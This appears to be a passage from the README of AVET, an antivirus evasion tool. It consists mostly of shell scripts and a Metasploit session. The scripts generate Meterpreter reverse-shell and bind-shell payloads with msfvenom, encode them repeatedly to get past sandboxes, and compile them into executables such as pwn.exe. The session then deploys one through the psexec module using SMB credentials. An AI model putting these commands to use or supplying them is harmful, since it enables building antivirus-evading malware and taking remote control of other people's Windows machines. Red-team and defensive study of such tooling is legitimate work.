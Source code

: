 ```
cleanup
$ rm scclean.txt && echo "" > defs.h

The following commands will be executed:
#/bin/bash
. build/global_win64.sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.116.132 lport=443 -f c --platform Windows > sc.txt
./format.sh sc.txt > scclean.txt && rm sc.txt
./make_avet -f scclean.txt -X -E
$win64_compiler -o pwn.exe avet.c
rm scclean.txt && echo "" > defs.h

Press enter to continue.

Building the output file...

Please stand by...

The output file should be placed in the current directory.

Bye...
```

AVET & metasploit psexec
------------------------
New in version 1.2 is the support for metasploits psexec module. The corresponding make file looks like:

```
#!/bin/bash          
# simple example script for building the .exe file
# for use with msf psexec module
# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh
# make meterpreter bind payload, encoded 20 rounds with shikata_ga_nai
msfvenom -p windows/meterpreter/bind_tcp lport=8443 -e x86/shikata_ga_nai -i 20 -f c -a x86 --platform Windows > sc.txt
# call make_avetsvc, the sandbox escape is due to the many rounds of decoding the shellcode
./make_avetsvc -f sc.txt
# compile to pwn.exe file
$win32_compiler -o pwnsvc.exe avetsvc.c
# cleanup
echo "" > defs.h
```

And on the metasploit site:
```
msf exploit(psexec) > use exploit/windows/smb/psexec
msf exploit(psexec) > set EXE::custom /root/tools/ave/pwn.exe
EXE::custom => /root/tools/ave/pwn.exe
msf exploit(psexec) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(psexec) > set rhost 192.168.116.183
rhost => 192.168.116.183
msf exploit(psexec) > set smbuser dax
smbuser => dax
msf exploit(psexec) > set smbpass test123
smbpass => test123
msf exploit(psexec) > set lport 8443
lport => 8443
msf exploit(psexec) > run

```